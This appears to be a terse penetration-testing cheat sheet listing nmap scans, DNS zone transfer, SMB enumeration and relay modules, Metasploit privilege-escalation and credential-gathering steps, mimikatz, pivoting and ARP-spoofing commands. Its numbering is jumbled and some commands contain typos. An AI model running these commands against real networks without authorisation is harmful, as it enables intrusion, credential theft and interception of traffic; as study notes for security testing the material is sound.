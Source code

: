 ## CheatSheet 

### 1.Scanning

#### 1.1 Most used nmap command
    - scan -Pn -sn TARGET                 : Search all alive host with or without open ports 
    - scan -sV -n TARGET                  : Fingerprint all exposed services
    - scan -sV -n TARGET -p SEVICE_PORT   : Fingerprint a specific exposed service
    - scan -O -n TARGET                   : Find Operating System

#### 1.2 Metasploit
    - auxiliary/scanner/smb/smb_version 
    - auxiliary/scanner/portscan/tcp
    
### 3.DNS Misconfiguration

    - dig @authorative_dns_server -t axfr DOMAIN      :    Exploiting zone transfer to display all subdomains
    - Exploiting zone transfer to display zone

### 2.SMB Misconfiguration
   #### 2.1 SMB Share
     Mount shared drive : 
       - Linux   : mount -t cifs -o user=USER,password=PWD,rw //IP/share
       - Windows : net use K: \\IPTarget\SharedDrive

   #### 2.2 Metasploit
      exploit/windows/smb/psexec
      exploit/windows/smb/smb_relay
      auxiliary/scanner/smb/smb_login
      auxiliary/scanner/smb/smb_enumshares

   #### 2.3 Check Null session (Anynomous Access)
       smbclient -L IPTarget
   

### 4.Exploitation


### 3.Post Exploitation

#### 3.0 Infor Gathering
run winenum
run arp_scanner –r TargetNetworkSubnet
run post/multi/gather/filezilla_client_cred

#### 3.1 Privilege Escalation

##### 3.1.1 All OS

      getsystem
      post/windows/gather/win_privs        : Check if UAC enabled
      exploit/windows/local/bypassuac      : Local exploit to bypass UAC

    - Method 1 : Search Local Exploit using MSF
    - Method 2 : Impersonate privileged users
       incognito
       mimikatz

##### 3.1.2 Via Windows Services 

    - Manually : 
        Search all services    
              ==> wmic service where 'NOT PathName like '%system32%' ' GET PathName, Name > list_srv.txt       
        For each service check if user can write in the service Path 
              ==> icacls “Path”

   - Using powerUp.ps1 script
   - 
        
##### 3.1.3 Specific Linux

#### 3.3 Pivoting
   route add 192.168.4.0 (subnet) 255.255.255.0(mask) 6(session)
   portfarwarding (meterpreter) ==> portfwd victimeIP -p ServicePort add -L 127.0.0.1 -l LocalPort -r

### 5.Sniffing

#### 5.1 MiTM between vtcim1 & victm2 using arp poisonning
* arpspoof -i tap0 -t vic1_IP -r vic2_IP
*  arpspoof -i tap0 -t vic2_IP -r vic2_IP
